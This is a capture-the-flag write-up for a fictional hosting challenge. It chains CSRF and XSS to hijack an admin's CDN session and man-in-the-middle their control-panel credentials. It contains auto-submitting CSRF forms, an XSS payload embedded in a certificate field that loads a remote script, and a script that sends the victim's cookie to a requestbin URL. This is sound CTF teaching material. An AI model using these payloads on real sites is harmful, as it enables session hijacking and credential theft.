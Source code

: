 This challenge was preforming CSRF and XSS attacks on a user to gain control of their CDN/proxy settings and MitM their credentials for their hosting service. 


I will be using user id 2 and `test.hosting.pwn.republican`. Substitute your own.


There are 3 steps:
- View the admin's private SSL certificate email (You might not know you need this until you did step 2)
- Steal the admin's CDN cookie and log in as them
- MitM the admin's hosting control panel


1.
Request `voteforme.hosting.pwn.republican` as your error domain.


Send this CSRF payload on the voteforme form:
```
<form id="pwn" action="https://tld.hosting.pwn.republican/manage" method="POST">
<input name="name" value="voteforme.hosting.pwn.republican">
<input name="userid" value="2">
<input name="allow" value="">
</form>
<script>document.getElementById("pwn").submit();</script>
```

Record the email you see in the domain:
`Sup3r_P4k_d0L13rs@polihost.hosting.pwn.republican`


2.
Create the XSS payload in the Certificate


Create a CSR with 
`openssl req -out csr -new -newkey rsa:2048 -nodes -keyout key`
Have the common name be `test.hosting.pwn.republican`, and the organizational unit be this XSS payload:
`"><svg onload="$.getScript('https:\x2f\x2fexample.com\x2fp.js')">`


Create a https server with a self signed certificate and use the TLD site to sign the CSR.



Send this CSRF payload to give the target our XSS payload
```
<form id="pwn" action="https://tld.hosting.pwn.republican/manage" method="POST">
<input name="errorname" value="test">
<input name="adderror" value="">
</form>
<script>document.getElementById("pwn").submit();</script>
```


On our XSS script source set up something to steal the cookie. ie requestbin
```
var i = document.createElement("img");
i.src = "http://requestb.in/1mju3gg1?cookie="+encodeURIComponent(document.cookie);
```


Send this payload to make the target trigger our XSS
```
<script>location="https://tld.hosting.pwn.republican/manage";</script>
```


Check requestbin and login with the target's cookie. It will ask for confirmation, so give the email recorded before.


3.
MitM the admin panel

Now we can view and edit the secret domain the admin uses.


Record the real ip of the admin panel, and then change login domain's IP to your server and sign a CSR for it.


Send a message to the admin and he will visit this site with his basicauth headers, which you can record.


Now you can log into the real admin panel with the username and password and get the flag.
